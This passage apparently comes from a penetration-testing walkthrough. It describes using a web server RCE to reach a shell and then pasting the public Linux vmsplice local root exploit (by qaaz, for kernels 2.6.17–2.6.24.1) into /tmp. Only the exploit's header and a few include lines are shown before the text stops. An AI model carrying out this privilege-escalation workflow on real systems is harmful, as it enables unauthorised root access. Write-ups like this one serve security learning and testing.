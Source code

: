 #include &lt;asm/unistd.h&gt;

#define PIPE_BUFFERS	16
... trimmed for space
</pre>

This is a HTML-formatted exploit for vmsplice, a local root privilege escalation attack against Linux systems. To avoid decoding it, display the contents of the file using the web server RCE vulnerability:


![](pics/8.png)

Copy and paste the exploit code into a file name ending in `.c`:

<pre>
[bob@barney]/var/www/html% exit
[bob@barney html]$ cd /tmp
[bob@barney tmp]$ cat >vmsplice.c
/*
 * jessica_biel_naked_in_my_bed.c
 *
 * Dovalim z knajpy a cumim ze Wojta zas nema co robit, kura.
 * Gizdi, tutaj mate cosyk na hrani, kym aj totok vykeca.
 * Stejnak je to stare jak cyp a aj jakesyk rozbite.
 *
 * Linux vmsplice Local Root Exploit
 * By qaaz
 *
 * Linux 2.6.17 - 2.6.24.1
 *
 * This is quite old code and I had to rewrite it to even compile.
 * It should work well, but I don't remeber original intent of all
 * the code, so I'm not 100% sure about it. You've been warned ;)
 * 
 * -static -Wno-format  
 */
#define _GNU_SOURCE
#include <stdio.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>